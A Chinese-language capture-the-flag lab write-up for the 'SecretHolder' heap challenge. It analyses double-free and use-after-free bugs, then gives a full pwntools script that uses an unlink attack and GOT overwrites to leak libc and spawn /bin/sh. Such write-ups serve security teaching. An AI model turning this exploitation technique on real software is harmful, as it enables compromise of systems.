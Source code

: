 # SecretHolder

[執行程式]

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_topic.jpg)

[解題]

首先可以透過執行程式看到其提供以下幾種功能:
* keep secret:有三種不同大小的空間，並依對應的大小輸入秘密到該空間。
* wipe secret:可以自行選擇要free掉哪種大小的空間。
* renew secret:重新創建某個大小的空間。

接下來可以用 ghidra 進行分析，其中看到比較有東西的程式畫面如下:

![image](https://github.com/PenguinBear-cyber/The-Attack-and-Defense-of-Computer/blob/main/Practice/LAB3/image/secretholder_code.jpg)

在 keep secret 的函數中使用 calloc() 為三種 secret 分配不同大小的 chunk (small chunk、big chunk、huge chunk)，在分配前會檢查相對應的 secret 是否已經存在，因為每種 chunk 只能有一個。而在 wipe secret 函數在釋放 secret 時，首先將對應的 chunk 釋放掉，然後設置 flag 為 0。最後，renew secret 函數會先判斷對應的 flag 是否為 1，表示 secret 是否已經存在，如果不存在則讀入 secret，否則函數直接返回。

透過程式碼解析可以發現有以下漏洞:
* double-free:在 free chunk 的位置 calloc 另一個 chunk，表示可以重複 free 這個 chunk。
* use-after-free:因為 double-free 的的情況發生，所以 calloc 出來的那個 chunk 會被認為是 free 的，但它實際上卻可以使用。

因此，本題可以利用 unsorted bin 的 unlink 來攻擊。

我們先建一個 big chunk，然後在 free 這個 big chunk，接著再建一個 small chunk 和一個 medium chunk。

#### exploit.py
```
from pwn import *
from LibcSearcher import *

sh = process('./SecretHolder')
elf = ELF('./SecretHolder')

# The address of huge_secret
huge_secret = 0x6020A8
bss_addr = 0x602090
free_got = elf.got['free']
puts_plt = elf.plt['puts']
read_got = elf.got['read']

def new(h_type, content):
   sh.sendlineafter('3. Renew secret', '1')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendlineafter('Tell me your secret:', content)

def delete(h_type):
   sh.sendlineafter('3. Renew secret', '2')
   sh.sendlineafter('3. Huge secret', str(h_type))

def edit(h_type, content):
   sh.sendlineafter('3. Renew secret', '3')
   sh.sendlineafter('3. Huge secret', str(h_type))
   sh.sendafter('Tell me your secret:', content)

# apply one big chunk
new(3,'a'*0x100)
delete(3)

# apply one small chunk
new(1,'b'*0x10)

#apply one medium chunk
new(2,'c'*0x100)

# free chunk0 and chunk1
delete(1)
delete(2)

# create fake chunk
fake_chunk = p64(0) + p64(0x21)
#fd,bk
fake_chunk += p64(huge_secret-0x18) + p64(huge_secret-0x10)
payload = fake_chunk.ljust(0x20,'\x00')
#prev_size size
payload += p64(0x20) + p64(0x90) + 'c'*0x80   #chunk2
#prev_size size
payload += p64(0x90) + p64(0x81) + 'd'*0x70   #chunk3
#prev_size size
payload += p64(0) + p64(0x81)   #chunk4
# reapply big chunk
new(3, payload)

# unlink this 3 big bin
delete(2)
# Now, we can control this three heap pointer, modify them first
payload += p64(0) * 2 + p64(free_got) + p64(bss_addr) + p64(read_got) +p32(1)*3
edit(3,payload)

# modify free's got to put's plt
edit(2,p64(puts_plt))
#leakage the address of read
delete(1)
sh.recvuntil('\n')
read_addr = u64(sh.recvuntil('\n',drop = True).ljust(8,'\x00'))
libc = LibcSearcher('read',read_addr)
libc_base = read_addr - libc.dump('read')
system_addr = libc_base + libc.dump('system')
binsh_addr = libc_base + libc.dump('str_bin_sh')
print ('libc_base=',hex(read_addr))
print ('system_addr=',hex(system_addr))
#modify table got of free and point to system
edit(2,p64(system_addr))
#modify heap1 pointer and point to str(/bin/sh)
edit(3,p64(0) * 2 + p64(binsh_addr))
#system("/bin/sh")
delete(2)

sh.interactive()
```
